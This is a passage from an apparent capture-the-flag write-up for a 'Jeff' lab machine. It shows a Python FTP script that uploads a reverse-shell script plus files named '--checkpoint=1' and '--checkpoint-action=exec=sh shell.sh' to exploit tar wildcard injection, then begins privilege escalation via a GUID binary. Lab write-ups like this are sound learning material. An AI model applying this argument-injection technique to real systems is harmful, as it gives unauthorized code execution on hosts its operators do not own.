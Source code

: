 ### Content of upload.py
```py
import ftplib
session = ftplib.FTP('172.20.0.1','backupmgr','<ftp_readacted_password>')
session.set_pasv(False)
file = open('shell.sh','rb')
session.cwd('files')                          # file to send
session.storbinary('STOR shell.sh', file)     # send the file
file.close()                                  # close file and FTP
file = open('--checkpoint=1','rb')
session.storbinary('STOR ' + '--checkpoint=1', file)     # send the file
file.close()                                             # close file and FTP
file = open('--checkpoint-action=exec=sh shell.sh','rb')
session.storbinary('STOR ' + '--checkpoint-action=exec=sh shell.sh', file)     # send the file
file.close()                                                                   # close file and FTP
session.quit()
```
Here I have uploaded three files, one is shell.sh which contains bunch of reverse shell payloads and other two are used to abuse the tar wildcard vulnerability with will execute the file shell.sh.

### Executing upload.py
![15](/assets/images/thm/jeff/15.png)
And after a while we get a shell as backupmgr on the host.

# Privilege Escalation
I ran linpeas and found a non standard binary with GUID bit set.
### Searching for GUID binaries
![16](/assets/images/thm/jeff/16.png)
Here **/opt/systools/sytool** binary has GUID bit set and is owned by group **pwman**. If we can find any misconfiguration on this binary, it will be great as the binary runs with the effective privilege of group **pwman**.
